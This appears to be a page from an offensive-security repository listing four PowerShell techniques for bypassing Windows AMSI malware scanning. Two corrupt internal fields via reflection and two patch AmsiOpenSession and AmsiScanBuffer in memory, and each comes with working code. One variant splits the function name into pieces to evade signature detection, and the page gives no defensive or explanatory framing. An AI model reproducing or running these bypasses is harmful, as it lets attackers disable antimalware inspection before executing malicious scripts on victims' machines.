 ### Powershell AMSI Bypass

#### Powershell AMSI Bypass via "amsiContext" Header Corruption

```
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf=@(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

#### Powershell AMSI Bypass via "amsiInitFailed" Corruption

```
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*InitFailed") {$f=$e}};$f.SetValue($null,$true)
```

#### Powershell "AmsiOpenSession" AMSI Binary Patch Bypass

[Full Source](../src/powershell/AmsiOpenSession-Patch-amsi-bypass.ps1)

```
[IntPtr]$funcAddr = LookupFunc amsi.dll AmsiOpenSession
$oldProtectionBuffer = 0
$vp=[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualProtect), (getDelegateType @([IntPtr], [UInt32], [UInt32],[UInt32].MakeByRefType()) ([Bool])))
$vp.Invoke($funcAddr, 3, 0x40, [ref]$oldProtectionBuffer)

$buf = [Byte[]] (0x48, 0x31, 0xC0)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $funcAddr, 3)
# restore
$vp.Invoke($funcAddr, 3, 0x20, [ref]$oldProtectionBuffer)
```

#### Powershell "AmsiScanBuffer" AMSI Binary Patch Bypass

[Full Source](../src/powershell/AmsiScanBuffer-Patch-amsi-bypass.ps1)

```
$z1 = 'AmsiS'
$z2 = 'canB'
$z3 = 'uffer'
$z = $z1 + $z2 + $z3
[IntPtr]$funcAddr = LookupFunc amsi.dll $z
$oldProtectionBuffer = 0
$vp=[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualProtect), (getDelegateType @([IntPtr], [UInt32], [UInt32],[UInt32].MakeByRefType()) ([Bool])))
# in rasta's , arg #2 is "[uint32]5"
$vp.Invoke($funcAddr, [uint32]5, 0x40, [ref]$oldProtectionBuffer)

# original: $buf = [Byte[]] (0x48, 0x31, 0xC0)
$buf = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)

# in rasta's, last arg is 6
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $funcAddr, 6)
```
